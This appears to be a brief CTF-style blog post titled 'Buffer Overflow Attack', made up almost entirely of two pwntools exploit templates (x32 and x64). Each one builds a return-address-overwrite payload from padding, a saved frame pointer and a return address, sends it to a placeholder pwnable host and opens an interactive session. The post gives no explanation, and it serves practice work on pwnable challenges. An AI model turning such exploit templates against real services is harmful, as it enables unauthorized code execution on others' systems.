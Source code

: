 ```yaml
---
title: Buffer Overflow Attack
author: janger
date: 2023-09-25
category: pwnables
layout: post
---
```




**pwntools for Return Address Overwrite(x32)**

~~~ python
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 4
ret = p32(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
~~~

<br>

**pwntools for Return Address Overwrite(x64)**

~~~ python
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 8
ret = p64(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
~~~

<br>


